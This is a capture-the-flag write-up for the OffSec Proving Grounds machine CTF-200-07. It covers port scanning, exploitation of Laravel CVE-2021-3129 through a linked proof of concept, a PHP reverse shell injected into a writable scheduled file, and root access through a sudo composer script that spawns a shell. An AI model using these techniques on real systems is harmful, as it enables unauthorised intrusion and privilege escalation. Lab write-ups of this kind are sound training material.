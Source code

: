 ```yaml
---
title: CTF-200-07 (OffSec. Proving Grounds)
image: /assets/writeups/trace10.jpg
description: Write-up of CTF-200-07 Machine
date: 2023-12-29
categories: [proving grounds]
tags: [lavaral, CVE, LAvita, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Host is up, received syn-ack (0.23s latency).
Scanned at 2023-12-28 00:54:45 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

So we found two ports open `22` & `80`

#### Port 80:

Visiting Port `80` we see a web app running which is also running **Laravel 8.4.0**, Quick Google Search and I found [CVE-2021-3129](https://security.snyk.io/vuln/SNYK-PHP-FACADEIGNITION-1059267)

> [POC](https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/main/CVE-2021-3129.py)

## www-data:

We can use this POC to execute the commands like:

![poccheck.png](https://i.imgur.com/jr6kppj.png)

Running the POC to get callback for reverse shell,

![gettingrev1.png](https://i.imgur.com/CrCtfIZ.png)

and we get the user shell

![rev2.png](https://i.imgur.com/fvuQKN4.png)



User skunk belong to sudo(27) group (Found in linPEAS result). So we need to get shell as user skunk.

Running Pspy to check for the necessary files and ways we can get the skunk shell and i found this php file running which belongs to user `Skunk` 

![pspyresult.png](https://i.imgur.com/DDsifto.png)

And we have Write Access to it, 

![writeaccess.png](https://i.imgur.com/7EnbJGO.png)

Injecting a PHP reverse shell will get us the shell as user `Skunk`

![Screenshot_2023-12-28_11-47-12.png](https://i.imgur.com/dyf8WUW.png)

## Getting Root:

Sticking to the basics i ran `sudo -l` and i found 

```bash
skunk@debian:/$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *
```

And [GTFO](https://gtfobins.github.io/gtfobins/composer/#limited-suid) has exploit method for composer, we follow the path 

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```

Since only `www-data` has write access to it, so do this whilst being in the `www-data` shell and then back to `Skunk` shell we run

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

and we get root shell

![root.png](https://i.imgur.com/mKfbRei.png)
